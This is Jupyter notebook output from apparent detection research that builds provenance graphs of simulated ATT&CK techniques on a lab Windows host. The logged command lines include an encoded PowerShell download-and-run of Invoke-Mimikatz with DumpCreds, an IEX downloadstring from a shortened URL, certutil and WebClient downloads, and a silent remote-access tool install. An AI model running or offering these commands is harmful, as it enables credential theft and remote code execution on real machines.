<Figure size 432x288 with 0 Axes>



  7%|▋         | 11/165 [10:27<51:29, 20.06s/it]  

Number of relations in the graph: 159
433820 : "C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe"_-ServerName:CortanaUI.AppX8z9r6jm96hw4bsbneegw0kyxx296wr9t.mca&C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe&SearchApp.exe&5232
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
627252 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_--type=utility_--utility-sub-type=network.mojom.NetworkService_--lang=zh-TW_--service-sandbox-type=none_--mojo-platform-channel-handle=1980_--field-trial-handle=1808,i,17237985359430627355,1924592263417351822,131072_/prefetch:8&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&9220
138271 : DESKTOP-BA1RQFC.blueteam.com&tsa03s08-in-f14.1e100.net:https
780584 : DESKTOP-BA1RQFC.blueteam.com&tsa03s08-in-f8.1e100.net:https
../graph_benign2/T1219_f1b3fca18d7465cd10e5a7477a3bf97d.png has been generated!
T1219_af8cb2bf9b436aae5c106a0a9c207e14


<Figure size 432x288 with 0 Axes>



  7%|▋         | 12/165 [10:32<39:20, 15.43s/it]

Number of relations in the graph: 155
433820 : "C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe"_-ServerName:CortanaUI.AppX8z9r6jm96hw4bsbneegw0kyxx296wr9t.mca&C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe&SearchApp.exe&5232
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
90059 : C:\Windows\System32\smartscreen.exe_-Embedding&C:\Windows\System32\smartscreen.exe&smartscreen.exe&8176
747268 : "C:\Windows\system32\backgroundTaskHost.exe"_-ServerName:App.AppXmtcan0h2tfbfy7k9kn8hbxb6dmzz1zh0.mca&C:\Windows\system32\backgroundTaskHost.exe&backgroundTaskHost.exe&6864
442441 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe"_/silentConfig&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe&Microsoft.SharePoint.exe&6552
../graph_benign2/T1219_af8cb2bf9b436aae5c106a0a9c207e14.png has been generated!
T1105_eb814e03-811a-467a-bc6d-dcd453750fa2


<Figure size 432x288 with 0 Axes>



  8%|▊         | 13/165 [10:34<29:23, 11.60s/it]

Number of relations in the graph: 150
529782 : powershell.exe_-ExecutionPolicy_Bypass_-C_"[System.Net.ServicePointManager]::ServerCertificateValidationCallback_=_{_$True_};$web_=_(New-Object_System.Net.WebClient);$result_=_$web.DownloadFile(\"https://download.sysinternals.com/files/PSTools.zip\",_\"PSTools.zip\");New-Item_-ItemType_\"directory\"_C:\Windows\System32\PSTools_-Force;Add-Type_-Assembly_'System.IO.Compression.FileSystem';_[System.IO.Compression.ZipFile]::ExtractToDirectory(\"PSTools.zip\",_\"C:\Windows\System32\PSTools\");"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4032
215899 : C:\Windows\System32\PSTools.zip
570146 : C:\Windows\System32\PSTools\psfile.exe
582317 : C:\Windows\System32\PSTools\psfile64.exe
432435 : C:\Windows\System32\PSTools\pskill.exe
../graph_benign2/T1105_eb814e03-811a-467a-bc6d-dcd453750fa2.png has been generated!
T1496_46da2385-cf37-49cb-ba4b-a739c7a19de4


<Figure size 432x288 with 0 Axes>



  8%|▊         | 14/165 [10:38<22:47,  9.05s/it]

Number of relations in the graph: 94
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
688789 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-108-133.github.com:https
649154 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-enc_SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8ARQBtAHAAaQByAGUAUAByAG8AagBlAGMAdAAvAEUAbQBwAGkAcgBlAC8ANwBhADMAOQBhADUANQBmADEAMgA3AGIAMQBhAGUAYgA5ADUAMQBiADMAZAA5AGQAOAAwAGMANgBkAGMANgA0ADUAMAAwAGMAYQBjAGIANQAvAGQAYQB0AGEALwBtAG8AZAB1AGwAZQBfAHMAbwB1AHIAYwBlAC8AYwByAGUAZABlAG4AdABpAGEAbABzAC8ASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAiACkAOwAgACQAbQAgAD0AIABJAG4AdgBvAGsAZQAtAE0AaQBtAGkAawBhAHQAegAgAC0ARAB1AG0AcABDAHIAZQBkAHMAOwAgACQAbQAKAA==

<Figure size 432x288 with 0 Axes>



  9%|▉         | 15/165 [10:40<17:44,  7.10s/it]

Number of relations in the graph: 89
394733 : "C:\Windows\system32\taskmgr.exe"_/4&C:\Windows\system32\taskmgr.exe&taskmgr.exe&3104
109348 : C:\Windows\System32\lsass.exe
310089 : "C:\Windows\system32\taskmgr.exe"_/4&C:\Windows\system32\taskmgr.exe&taskmgr.exe&6568
349105 : C:\Windows\system32\svchost.exe_-k_LocalSystemNetworkRestricted_-p_-s_SysMain&C:\Windows\system32\svchost.exe&svchost.exe&1704
185657 : "C:\Program_Files\VMware\VMware_Tools\vmtoolsd.exe"&C:\Program_Files\VMware\VMware_Tools\vmtoolsd.exe&vmtoolsd.exe&2920
../graph_benign2/T1003.001_0ef4cc7b-611c-4237-b20b-db36b6906554.png has been generated!
T1059.001_6efbccc1869e8cd618c0d3ecda407d5f


<Figure size 432x288 with 0 Axes>



 10%|▉         | 16/165 [10:43<14:06,  5.68s/it]

Number of relations in the graph: 78
433820 : "C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe"_-ServerName:CortanaUI.AppX8z9r6jm96hw4bsbneegw0kyxx296wr9t.mca&C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe&SearchApp.exe&5232
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
90059 : C:\Windows\System32\smartscreen.exe_-Embedding&C:\Windows\System32\smartscreen.exe&smartscreen.exe&8176
747268 : "C:\Windows\system32\backgroundTaskHost.exe"_-ServerName:App.AppXmtcan0h2tfbfy7k9kn8hbxb6dmzz1zh0.mca&C:\Windows\system32\backgroundTaskHost.exe&backgroundTaskHost.exe&6864
442441 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe"_/silentConfig&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe&Microsoft.SharePoint.exe&6552
../graph_benign2/T1059.001_6efbccc1869e8cd618c0d3ecda407d5f.png has been generated!
T1105_c76968acda4aa1673dadcd67f3ab7664


<Figure size 432x288 with 0 Axes>



 10%|█         | 17/165 [10:45<11:34,  4.69s/it]

Number of relations in the graph: 76
433820 : "C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe"_-ServerName:CortanaUI.AppX8z9r6jm96hw4bsbneegw0kyxx296wr9t.mca&C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe&SearchApp.exe&5232
60370 : DESKTOP-BA1RQFC.blueteam.com&117.18.237.29:http
90059 : C:\Windows\System32\smartscreen.exe_-Embedding&C:\Windows\System32\smartscreen.exe&smartscreen.exe&8176
747268 : "C:\Windows\system32\backgroundTaskHost.exe"_-ServerName:App.AppXmtcan0h2tfbfy7k9kn8hbxb6dmzz1zh0.mca&C:\Windows\system32\backgroundTaskHost.exe&backgroundTaskHost.exe&6864
442441 : "C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe"_/silentConfig&C:\Users\ezk\AppData\Local\Microsoft\OneDrive\22.111.0522.0002\Microsoft.SharePoint.exe&Microsoft.SharePoint.exe&6552
../graph_benign2/T1105_c76968acda4aa1673dadcd67f3ab7664.png has been generated!
T1219_7dabcbecab0334b115feefab1630f84a


<Figure size 432x288 with 0 Axes>



 11%|█         | 18/165 [10:48<10:12,  4.16s/it]

Number of relations in the graph: 67
266154 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-OutFile_C:\Users\$env:username\Desktop\AnyDesk.exe_https://download.anydesk.com/AnyDesk.exe;_$file1_=_\"C:\Users\\\"_+_$env:username_+_\"\Desktop\AnyDesk.exe\";_Start-Process_$file1_/S;"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3824
16141 : DESKTOP-BA1RQFC.blueteam.com&static.197.19.69.159.clients.your-server.de:https
459822 : C:\Users\ezk\Desktop\AnyDesk.exe
88010 : C:\Users\ezk\Desktop\AnyDesk.exe:Zone.Identifier
329298 : HKLM\Software\Microsoft\Windows\CurrentVersion\App_Paths\AnyDesk.exe
../graph_benign2/T1219_7dabcbecab0334b115feefab1630f84a.png has been generated!
T1036.003_f5ef8466e5ebcd2ae03f338d9416069c


<Figure size 432x288 with 0 Axes>



 12%|█▏        | 19/165 [10:50<08:43,  3.58s/it]

Number of relations in the graph: 49
129662 : "C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\setup.exe"_--install-archive="C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\MSEDGE.PACKED.7Z"_--msedge_--verbose-logging_--do-not-launch-msedge_--system-level_--channel=stable&C:\Program_Files_(x86)\Microsoft\EdgeUpdate\Install\{4DCF770B-53FA-411D-AA3F-46211AA0F39A}\EDGEMITMP_549E4.tmp\setup.exe&setup.exe&9696
579328 : HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
659554 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
219457 : "C:\Users\ezk\AppData\Local\Google\Chrome\User_Data\SwReporter\100.282.200\software_reporter_tool.exe"_--engine=2_--scan-locations=1,2,3,4,5,6,7,8,10_--disabled-locations=9,11_--session-id=Tk2S3WoPYQ6/DZE8CygMdVWxGn00DZrSsN2fd+dj_--registry-suffix=ESET&C:\Users\ezk\AppData\Local\Google\Chrome\User_Data\SwReporter\100.282.200\s

<Figure size 432x288 with 0 Axes>



 12%|█▏        | 20/165 [10:52<07:24,  3.07s/it]

Number of relations in the graph: 33
607044 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Get-Service_>_$env:TEMP\T1119_1.txt;_Get-ChildItem_Env:_>_$env:TEMP\T1119_2.txt;_Get-Process_>_$env:TEMP\T1119_3.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11144
799558 : C:\Users\ezk\AppData\Local\Temp\T1119_1.txt
78243 : C:\Users\ezk\AppData\Local\Temp\T1119_2.txt
35331 : C:\Users\ezk\AppData\Local\Temp\T1119_3.txt
702687 : cmd.exe_/C_sc_query_type=service_>_%TEMP%\T1119_1.txt_&&_doskey_/history_>_%TEMP%\T1119_2.txt_&&_wmic_process_list_>_%TEMP%\T1119_3.txt_&&_tree_C:\AtomicRedTeam\atomics_>_%TEMP%\T1119_4.txt&C:\Windows\system32\cmd.exe&cmd.exe&8156
../graph_benign2/T1119_7121cdf93b951311be9d7078c602efdc.png has been generated!
T1105_60f63260-39bb-4136-87a0-b6c2dca799fc


<Figure size 432x288 with 0 Axes>



 13%|█▎        | 21/165 [10:54<06:48,  2.84s/it]

Number of relations in the graph: 32
419036 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_--type=utility_--utility-sub-type=network.mojom.NetworkService_--lang=zh-TW_--service-sandbox-type=none_--mojo-platform-channel-handle=1860_--field-trial-handle=1796,i,16222477317361945607,16948030174847217114,131072_/prefetch:8&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&392
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
575448 : powershell.exe_-ExecutionPolicy_Bypass_-C_"(New-Object_System.Net.WebClient).DownloadFile(\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt\",_\"$env:TEMP\Atomic-license.txt\")"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8724
616413 : powershell.exe_-ExecutionPolicy_Bypass_-C_"powershell.exe_-c_IEX_(New-Object_Net.Webclient).downloadstring(\"https://bit.ly/33H0QXi\")"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10688
144

<Figure size 432x288 with 0 Axes>



 13%|█▎        | 22/165 [10:56<06:06,  2.56s/it]

Number of relations in the graph: 28
339184 : C:\Windows\system32\CompatTelRunner.exe_-m:appraiser.dll_-f:DoScheduledTelemetryRun_-cv:j9hSbEpxOUS1bNMa.1&C:\Windows\system32\CompatTelRunner.exe&CompatTelRunner.exe&7464
195610 : C:\Windows\System32\DriverStore\FileRepository\usbstor.inf_amd64_bc28fdc48deb4a2c
77553 : C:\Windows\system32\cleanmgr.exe_/autoclean_/d_C:&C:\Windows\system32\cleanmgr.exe&cleanmgr.exe&6096
449506 : HKLM\SYSTEM\DriverDatabase\DriverPackages\usbstor.inf_amd64_bc28fdc48deb4a2c
241817 : HKLM\SYSTEM\DriverDatabase\DriverPackages\usbstor.inf_amd64_bc28fdc48deb4a2c\Version
../graph_benign2/T1547_fe9eeee9a7b339089e5fa634b08522c1.png has been generated!
T1217_69bbe2183fa09c00ccaac62d48e214f8


<Figure size 432x288 with 0 Axes>



 14%|█▍        | 23/165 [10:58<05:37,  2.38s/it]

Number of relations in the graph: 27
533094 : "C:\Users\ezk\Anaconda3\envs\ML\python.exe"__"C:\Users\ezk\Anaconda3\envs\ML\Scripts\jupyter-notebook.EXE"_&C:\Users\ezk\Anaconda3\envs\ML\python.exe&python.exe&5264
159335 : C:\Users\ezk\Favorites
733382 : C:\Windows\Explorer.EXE&C:\Windows\Explorer.EXE&Explorer.EXE&6068
219457 : "C:\Users\ezk\AppData\Local\Google\Chrome\User_Data\SwReporter\100.282.200\software_reporter_tool.exe"_--engine=2_--scan-locations=1,2,3,4,5,6,7,8,10_--disabled-locations=9,11_--session-id=Tk2S3WoPYQ6/DZE8CygMdVWxGn00DZrSsN2fd+dj_--registry-suffix=ESET&C:\Users\ezk\AppData\Local\Google\Chrome\User_Data\SwReporter\100.282.200\software_reporter_tool.exe&software_reporter_tool.exe&7816
566485 : "c:\users\ezk\appdata\local\google\chrome\user_data\swreporter\100.282.200\software_reporter_tool.exe"_--use-crash-handler-with-id="\\.\pipe\crashpad_7816_BCKRKHIGAONBVPMQ"_--sandboxed-process-id=2_--init-done-notifier=768_--sandbox-mojo-pipe-token=12170273747981857521_--mojo-

<Figure size 432x288 with 0 Axes>



 15%|█▍        | 24/165 [11:00<05:26,  2.31s/it]

Number of relations in the graph: 26
205118 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&6764
269180 : HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
128905 : "C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe"_--flag-switches-begin_--flag-switches-end_--no-startup-window_/prefetch:5&C:\Program_Files_(x86)\Microsoft\Edge\Application\msedge.exe&msedge.exe&4764
394733 : "C:\Windows\system32\taskmgr.exe"_/4&C:\Windows\system32\taskmgr.exe&taskmgr.exe&3104
310089 : "C:\Windows\system32\taskmgr.exe"_/4&C:\Windows\system32\taskmgr.exe&taskmgr.exe&6568
../graph_benign2/T1547.001_163b023f43aba758d36f524d146cb8ea.png has been generated!
T1059.001_bfff9006-d1fb-46ce-b173-92cb04e9a031


<Figure size 432x288 with 0 Axes>



 15%|█▌        | 25/165 [11:02<04:54,  2.10s/it]

Number of relations in the graph: 21
419036 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_--type=utility_--utility-sub-type=network.mojom.NetworkService_--lang=zh-TW_--service-sandbox-type=none_--mojo-platform-channel-handle=1860_--field-trial-handle=1796,i,16222477317361945607,16948030174847217114,131072_/prefetch:8&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&392
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
144367 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$wc=New-Object_System.Net.WebClient;$output=\"PowerShellCore.msi\";$wc.DownloadFile(\"https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi\",_$output);Start-Process_msiexec.exe_-ArgumentList_\"/package_PowerShellCore.msi_/quiet_ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1_ENABLE_PSREMOTING=1_REGISTER_MANIFEST=1\"_-Wait;$env:Path_+=_\";C:\Program_Files\Powershell\6\";Start-Process_pwsh_-ArgumentList_\"-c_C:\Users\Public\sandcat.go

<Figure size 432x288 with 0 Axes>



 16%|█▌        | 26/165 [11:04<04:44,  2.05s/it]

Number of relations in the graph: 20
